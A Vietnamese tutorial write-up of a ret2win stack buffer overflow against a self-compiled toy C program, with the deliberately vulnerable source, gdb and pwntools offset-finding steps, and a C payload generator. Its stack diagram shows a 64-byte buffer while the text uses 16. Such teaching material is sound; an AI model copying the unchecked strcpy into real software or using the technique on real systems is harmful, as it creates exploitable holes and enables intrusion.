










##Write Up giải bài nhị phân




> Hai hình ảnh đoạn tin nhắn của `người giao bài nhị phân`

##Đầu tiên. Chúng ta có bài nhị phân của người giao là đoạn code C dưới đây và biên dịch nó :

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

// Hàm bí mật - Tọa độ vàng
void secret_shell() {
    printf("\n[+] BINGO! Ban da dieu khien duoc EIP!\n");
    system("calc");
    exit(0);
}

void vulnerable_function(char* input) {
    char buffer[16];
    // Lỗ hổng: strcpy copy không kiểm soát. 
    strcpy(buffer, input);
    printf("Da copy vao buffer!\n");
}

int main() {
    char file_content[100] = { 0 }; // Chứa payload đọc từ file
    FILE* fp = fopen("payload.txt", "rb"); // Đọc file ở chế độ nhị phân

    if (fp == NULL) {
        printf("Khong tim thay payload.txt\n");
        return 1;
    }

    // Đọc tối đa 100 bytes từ file vào file_content
    fread(file_content, 1, 100, fp);
    fclose(fp);

    printf("Chuan bi trigger loi...\n");
    vulnerable_function(file_content);

    printf("Neu in ra dong nay thi payload cua ban da that bai , ahihi do ngok !!! .\n");
    return 0;
}
```

> gcc -o <name_binary_output> <name_binary_input> --no-stack-protector #biên dịch chương trình với cờ no canary

- Chúng ta có thể `khám xét chương trình` bằng `checksec` để chứng minh chương trình đã được biên dịch không có canary:



> ở đây trong hình ảnh, đúng là binary của chúng ta đã bị `no canary`

##Thứ hai : chúng ta tiến hành tính offset của chương trình và lấy địa chỉ của hàm win

**Để khám xét và tính offset của một chương tình có lỗi BOF** : thì chúng ta cần phải `làm tràn nó`. Tôi ví dụ làm tràn cái này bằng payload ngẫu nhiên `100 qword`, để có payload ngẫu nhiên. Ta dùng lệnh :

> pwn cyclic 100 #tạo payload ngẫu nhiên từ pwntools

- Do chương trình yêu cầu đọc vào file `payload.txt` ta có thể copy output của payload đưa vào file hoặc dùng :

> pwn cyclic 100 > payload.txt #tạo rồi đưa vào file, nếu file ko có sẵn, nó sẽ tự tạo luôn

**lưu ý: phải để payload chung một đường dẫn với chương trình, ví dụ binary ở ổ Home ( ~ ) thì chúng ta phải đặt file payload.txt vào ổ Home**
- Ví dụ `copy` hoặc `cut` file vào ổ `home`:

> cp payload.txt ~ 
**Hoặc**
> mv payload.txt ~

- Lý do: khi file payload đã vào cùng chung môi trường với binary, thì nó mới có thể đọc nhị phân file đó được. Nếu không sẽ trả lỗi `not found`

**Tính Offset và Lấy địa chỉ của hàm win**

- Để tính `offset` của binary thì chúng ta cần phải debug nó với `pwndbg + gdb`. Chúng ta mở GDB bằng lệnh :

> gdb <filename binary> # thay filename binary thành tên file nhị phân

- khi vào môi trường của gdb, chúng ta gõ lệnh `r` để chương trình thực thi:



- Chúng ta thấy, chương trình đã được thực thi và hiện dòng `đã copy vào buffer` và đã bị SIGSEGV do payload 100 đã khiến buffer bị tràn và ghi đè vào thanh ghi `rbp`, lúc này `rbp` chứa các `hexdecimal` của các `qword payload`. Khi chương trình ret, thì phải cộng với rbp nhưng do bị ghi đè nó cho ra địa chỉ `không tồn tại` chương trình truy cập và `hệ thống chặn lại` -> `SIGSEGV`

- Tiếp theo chúng ta tính offset bằng lệnh :

> cyclic -l <số hexdecimal ở rbp> # gõ nó trong gdb 

- ở đây `RBP` của chúng ta đang chứa các `hexdecimal` của `qword`:



- Chúng ta copy cái hex này để tính `offset`, ví dụ ở đây rbp chứa `0x6161616661616165` -> là thuộc chuỗi `eaaafaaa` chúng ta dùng lệnh:

> cyclic -l 0x6161616661616165

- kết quả là `16 byte`:



- `16 byte` này là `offset` của thanh ghi `RBP` . Theo stack frame :

```
┌───────────────────────────────┐  <- địa chỉ thấp
│  buf[64]  (local variable)    │
├───────────────────────────────┤
│  padding / saved registers    │
├───────────────────────────────┤  <- RBP  (offset = 64)
│  Saved Base Pointer (RBP)     │
├───────────────────────────────┤  
│  Return Address  < mục tiêu > │  <- RBP + 8
└───────────────────────────────┘  
								   <- địa chỉ cao
```

- mục tiêu của ta là `Return Address`. Vậy lấy **16 + 8 là 24**, trong đó **8** là số `offset` của `return address` còn **16** là số `offset` của `rbp`.

- **Bây giờ**: chúng ta có `offset` là **24**. Giờ tới tìm địa chỉ của `hàm win`, do chương trình không `strip` nên chúng ta có thể tìm dễ dàng hơn:

> i files # để lấy range vaddr của .text

- **Vì sao lại vaddr của .text?**: vì `.text`, là nơi chứa các `instrution thực thi` mà CPU tìm tới đầu tiên để `thực thi code`



- ở đây chúng ta biết, range của `.text` là khoảng vaddr `0x00005555555550a0 - 0x00005555555552f9` . Chúng ta dùng `disas` để có thể tìm `hàm win`:

> disas 0x00005555555550a0 - 0x00005555555552f9 # lưu ý: chuyển `-` thành `,`



- bây giờ ta biết, `Secret_shell` chính là `hàm win` của ta. Có địa chỉ là instrution là `0x0000555555555199`
- **Tại sao instrution phải là <secret_shell+0> ?**: vì `secret_shell + 0` nghĩa là không cộng thêm offset nào và việc dùng từ địa chỉ này chỉ đảm bảo nó hoạt động trọn vẹn hàm như tạo vùng nhớ, thực thi đủ lệnh để `ổn định hơn`

##Thứ ba: Exploit

- Khi có `offset = 24, vaddr_win = 0x0000555555555199` thì chúng ta tiến hành exploit. Để Exploit, chúng ta cần phải tạo payload đúng để ghi đè vào `RIP` là địa chỉ của hàm win
- Để làm được điều này, ta cần có một `script C` , hoặc python . Nhưng tus thích C hơn :

```c
#include <unistd.h>
#include <stdint.h>
#include <string.h>

int main(void){
    int offset = 24; // offset của return address 
    uint64_t win = 0x0000555555555199; // địa chỉ của hàm win

    char payload[800];
    memset(payload, 'A', offset); //tao vung bo nho ky tu A co do dai = offset ghi vao payload array
    memcpy(payload + offset, &win, 8);

    int payload_len = offset + 8;

    write(1, payload, payload_len);  // 1 = stdout
    return 0;
}
```

> gcc -o xpl xpl.c

- chạy thử :


- Nó sinh ra payload là `AAAAAAAAAAAAAAAAAAAAAAAA�QUUUU`, giải mã :

- `AAAAAAAAAAAAAAAAAAAAAAAA` : là chuỗi lắp đầy buffer và tràn ra thêm 8 theo offset để có thể tới phần `return addr`
- `�QUUUU` : là chuỗi địa chỉ, ở đây là địa chỉ nên nó sẽ đảm nhiệm ghi vào rip để đưa tới hàm win, gọn hơn là `�QUUUU` = `0x0000555555555199`

- do là chương trình nó cần `payload.txt` dạng file để đọc, chúng ta cần đưa payload của script vào `pyaload.txt` bằng lệnh:

> ./xpl > payload.txt

- và cuối cùng là vô `gdb` gõ `r` để chạy chương trình:



- chúng ta thấy chuỗi `[+] BINGO! Ban da dieu khien duoc EIP!` -> đã khai thác thành công, RiP đã bị ghi đè là địa chỉ của hàm win.

**Tac giả write up: Trần Quang Hào**